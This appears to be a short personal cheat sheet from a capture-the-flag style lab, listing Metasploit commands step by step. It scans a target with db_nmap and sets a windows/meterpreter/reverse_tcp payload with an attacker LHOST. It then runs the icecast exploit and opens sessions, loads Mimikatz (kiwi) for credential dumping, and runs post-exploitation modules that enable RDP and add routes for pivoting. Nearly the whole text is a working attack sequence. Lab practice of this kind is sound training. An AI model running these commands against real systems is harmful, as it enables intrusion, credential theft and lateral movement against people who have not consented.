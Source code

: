 # Metasploit

## Config

Start PostgreSQL und Metasploit on boot

 ``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

 ``` sh
service postgresql start
service metasploit start
```

## Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

## Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```
